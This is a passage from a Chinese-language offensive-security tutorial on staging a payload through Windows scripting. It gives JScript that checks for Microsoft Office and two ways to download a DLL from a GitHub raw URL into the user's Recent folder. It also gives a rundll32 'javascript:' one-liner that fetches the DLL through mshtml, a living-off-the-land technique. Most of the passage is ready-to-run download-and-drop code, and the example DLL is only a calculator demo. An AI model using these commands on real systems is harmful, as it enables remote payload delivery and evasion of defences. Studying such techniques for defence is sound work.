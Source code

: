 对应js代码如下：

```
var FileSys = WScript.CreateObject("Scripting.FileSystemObject");   
if (FileSys.FolderExists("c:\\Program Files\\Microsoft Office"))   
{   
	WScript.Echo("[+] Find Microsoft Office.");   
}
else
{
	WScript.Echo("[!] I can't find Microsoft Office!");    
}
```


**2、从Github下载dll文件并保存至Recent目录**

**方式1：**使用Msxml2.XMLHTTP

```
var sGet=new ActiveXObject("ADODB.Stream");
var xGet=null;
xGet=new ActiveXObject("Msxml2.XMLHTTP");
xGet.Open("GET","https://raw.githubusercontent.com/3gstudent/test/master/calc.dll",0);
xGet.Send();
sGet.Type=1;
sGet.Open();
sGet.Write(xGet.ResponseBody);
sGet.SaveToFile((WScript.CreateObject("WScript.Shell").SpecialFolders("Recent")+"\\calc.dll"),2);
```


**方式2：**使用WinHttp.WinHttpRequest.5.1

```
h=new ActiveXObject("WinHttp.WinHttpRequest.5.1");
h.Open("GET","https://raw.githubusercontent.com/3gstudent/test/master/calc.dll",false);
h.Send();
s=new ActiveXObject("ADODB.Stream");
s.Type=1;
s.Open();
s.Write(h.ResponseBody);
x=new ActiveXObject("WScript.Shell").SpecialFolders("Recent")+"\\calc.dll";
s.SaveToFile(x，2);
```


两种js方式均可以，但是在rundll32下使用的话，需要使用方式2，原因如下：

不支持`WScript.CreateObject("WScript.Shell")`，需要换成`new%20ActiveXObject("WScript.Shell")`

cmd执行：

`rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";xGet=new%20ActiveXObject("Msxml2.XMLHTTP");xGet.Open("GET","https://raw.githubusercontent.com/3gstudent/test/master/calc.dll",0);xGet.Send();`

提示权限不够，如下图
